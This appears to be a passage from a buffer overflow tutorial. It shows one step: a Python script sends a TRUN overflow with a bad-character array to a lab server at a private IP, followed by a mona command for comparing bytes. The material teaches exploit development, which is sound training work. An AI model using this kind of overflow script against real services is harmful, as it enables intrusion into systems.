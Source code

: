 
## Update Bad Chars

* `badchars = <output from mona>`

```
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13"
"\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39"
"\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c"
"\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72"
"\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85"
"\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98"
"\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab"
"\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe"
"\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4"
"\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
* now you don't have to review the bad chars manually, instead:
* `!mona compare -f c:\mona\bytearray.bin -a 010AF9C8` where  ***010AF9C8*** is the ***ESP*** address
